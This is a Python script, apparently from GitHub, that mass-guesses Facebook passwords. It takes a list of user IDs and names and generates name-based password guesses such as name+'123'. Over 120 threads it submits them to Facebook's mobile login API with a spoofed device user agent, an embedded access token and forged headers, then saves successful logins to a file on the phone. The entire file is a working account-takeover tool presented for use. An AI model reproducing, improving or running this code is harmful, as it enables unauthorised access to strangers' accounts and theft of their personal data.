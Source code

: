 import os, random, sys, json, uuid, time
from concurrent.futures import ThreadPoolExecutor as ThreadPool

try:
    import requests
except:
    os.system("pip install requests -y")
    import requests

li="\033[1;37m—"

cox=str(f"{li}"*37)
logo=f"""
\033[31m   ____         \033[38;5;48m   ______       __      
\033[31m  / __/\033[1;35m______ ___ \033[38;5;49m/ __/ /___ __/ /__    
\033[31m / _/\033[1;35m/ __\033[1;37m/ \033[1;33m-\033[1;37m_) \033[1;33m-\033[1;37m_)\033[38;5;50m\ \/ __/ // / / -_)   
\033[31m/_/\033[1;35m /_/  \033[1;37m\__/\__/\033[1;37m___/\__/\_, /_/\__/    
                        /___/            
\x1b[0m{cox}
  \033[38;5;96m\033[47m B \x1b[0m\033[38;5;196m DEVELOPER   :   ETHICAL HACKING 
  \033[38;5;97m\033[47m O \x1b[0m\033[38;5;197m GITHUB      :   JAKAREYA-420
  \033[38;5;98m\033[47m B \x1b[0m\033[38;5;198m POWER BY    :   FUCK YOU
\033[1;30m{cox}"""
def logox():
    os.system('clear')
    print(logo)

def main():
    logox()
    print("  [A] FILE CLONE  |  [B] EXIT TOOL")
    print(cox)
    want=input("  [✓] INPUT+>")
    if want in ["A","a","1","01"]:
        file_iclone()
    elif want in ["B","b","2","02"]:
        print(cox)
        print("  [✓] Thanks For using My tool")
        print(cox)
        sys.exit()
    else:
        print(cox)
        print("  [✓] Input right option")
        print(cox)
        time.sleep(3)
        main()

def file_iclone():
    print(cox)
    fl=input("  [✓]\033[38;5;46m File Path:")
    print(cox)
    try:
        fileeee=open(fl,"r").read().splitlines()
    except:
        print("  [✓] \033[38;5;46mFile Does not found")
        print(cox)
        sys.exit()
    auto_pass(fileeee)



def auto_pass(fileeee):
    tl=str(len(fileeee))
    print("  [✓] Total id in File : "+tl)
    print(cox)
    print("  [✓] Id Save: /sdcard/FreeStyle.txt")
    print(cox)
    with ThreadPool (max_workers=120) as feel:
        for data in fileeee:
            uid=data.split("|")[0]
            pwx=[]
            pwx.append('57273200')
            pwx.append('59039200')
            nam=data.split("|")[1]
            name=nam.lower()
            try:
                name1=name.split(" ")[0]
                nam1=nam.split(" ")[0]
                if len(name1) <3:
                    pass
                else:
                    pwx.append(nam1+'123')
                    pwx.append(name1+'12')
                    pwx.append(name1+'123')
                    pwx.append(name1+' 123')
                    pwx.append(name1+'1234')
                    pwx.append(name1+'12345')
                    pwx.append(name1+'@#')
                    pwx.append(name1+'@@')
                    pwx.append(name1+'@@@')
                    pwx.append(name1+'@')
                    pwx.append(name1+'@123')
            except:pass
            try:
                mid_name=name.split(" ")[1]
                nam2=nam.split(" ")[1]
                if len(mid_name) <3:
                    pass
                else:
                    pwx.append(nam1+" "+nam2)
                    pwx.append(mid_name+'12')
                    pwx.append(mid_name+'123')
                    pwx.append(mid_name+' 123')
                    pwx.append(mid_name+'1234')
                    pwx.append(mid_name+'12345')
                    pwx.append(mid_name+'@#')
                    pwx.append(mid_name+'@@')
                    pwx.append(mid_name+'@')
                    pwx.append(mid_name+'@123')
                    #-Mix
                    pwx.append(name1+mid_name)
                    pwx.append(name1+mid_name+'12')
                    pwx.append(name1+mid_name+'123')
                    pwx.append(name1+mid_name+'1234')
                    pwx.append(name1+mid_name+'12345')
                    pwx.append(name1+mid_name+'@#')
                    pwx.append(name1+mid_name+'@@')
                    pwx.append(name1+mid_name+'@')
                    pwx.append(name1+mid_name+'@123')
                    pwx.append(name1+' '+mid_name)
                    pwx.append(name1+' '+mid_name+'123')
                    pwx.append(name1+' '+mid_name+'1234')
                    pwx.append(name1+' '+mid_name+'12345')
            except:pass
            try:
                sur_name=name.split(" ")[2]
                nam3=nam.split(" ")[2]
                if len(sur_name) <3:
                    pass
                else:
                    pwx.append(sur_name+'123')
                    pwx.append(sur_name+'1234')
                    pwx.append(sur_name+'12345')
                    pwx.append(name1+mid_name+sur_name)
                    pwx.append(name1+mid_name+sur_name+'123')
                    pwx.append(name1+mid_name+sur_name+'1234')
                    pwx.append(name1+mid_name+sur_name+'12345')
                    pwx.append(name1+mid_name+sur_name+'@#')
                    pwx.append(name1+mid_name+sur_name+'@@')
                    pwx.append(name1+mid_name+sur_name+'@')
                    pwx.append(name1+' '+mid_name+' '+sur_name)
                    pwx.append(name1+' '+mid_name+' '+sur_name+'123')
            except:pass
            feel.submit(file_subb,uid,pwx)
loop=0
oks=[]
cps=[]
def file_subb(uid,pwx):
    global oks,loop,cps
    sys.stdout.write(f"\r  \033[38;5;46m[FreeStyle] {loop}|{str(len(oks))}");sys.stdout.flush()
    session=requests.Session()
    try:
        for ps in pwx:
            user_agent="Dalvik/2.1.0 (Linux; U; Android 9; moto e6 Build/PCB29.73-65-3) [FBAN/Orca-Android;FBAV/235.1.0.9.122;FBPN/com.facebook.orca;FBLC/en_US;FBBV/175782189;FBCR/Metro by T-Mobile;FBMF/motorola;FBBD/motorola;FBDV/moto e6;FBSV/9;FBCA/armeabi-v7a:armeabi;FBDM/{density=2.0,width=720,height=1344};FB_FW/1;]"
            data = {
            "adid": str(uuid.uuid4()),
            "format": "json",
            "device_id": str(uuid.uuid4()),
            "cpl": "true",
            "family_device_id": str(uuid.uuid4()),
            "credentials_type": "device_based_login_password",
            "error_detail_type": "button_with_disabled",
            "source": "device_based_login",
            "email": uid,
            "password": ps,
            "access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",
            "generate_session_cookies": "1",
            "meta_inf_fbmeta": "",
            "advertiser_id": str(uuid.uuid4()),
            "currently_logged_in_userid": "0",
            "locale": "en_GB",
            "client_country_code": "GB",
            "method": "auth.login",
            "fb_api_req_friendly_name": "authenticate",
            "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
            "api_key": "882a8490361da98702bf97a021ddc14d"}
            headers = {
            'User-Agent': user_agent,
            'Content-Type': 'application/x-www-form-urlencoded',
            'Host': 'graph.facebook.com',
            'X-FB-Net-HNI': str(random.randint(20000, 40000)),
            'X-FB-SIM-HNI': str(random.randint(20000, 40000)),
            'X-FB-Connection-Type': 'MOBILE.LTE',
            'X-Tigon-Is-Retry': 'False',
            'X-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62',
            'X-fb-device-group': '5120',
            'X-FB-Friendly-Name': 'ViewerReactionsMutation',
            'X-FB-Request-Analytics-Tags': 'graphservice',
            'X-FB-HTTP-Engine': 'Liger',
            'X-FB-Client-IP': 'True',
            'X-FB-Server-Cluster': 'True',
            'X-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62',}
            p = requests.post("https://b-graph.facebook.com/auth/login",data=data,headers=headers,allow_redirects=False).text
            q=json.loads(p)
            if "session_key" in q:
                print(f"\r\r  [OK] {uid} | {ps}      ")
                open("/sdcard/FreeStyle-Ok.txt","a").write(uid+"|"+ps+"\n")
                oks.append(uid)
                break
            elif "Please Confirm Email" in q:
                print(f"\r\r। [OK] {uid} | {ps}      ")
                open("/sdcard/FreeStyle-Ok.txt","a").write(uid+"|"+ps+"\n")
                oks.append(uid)
            elif "www.facebook.com" in q:
                print(f"\r\r  [CP] {uid} | {ps}      ")
                cps.append(uid)
            else:
                continue
        loop+=1
    except:
        time.sleep(4)

main()

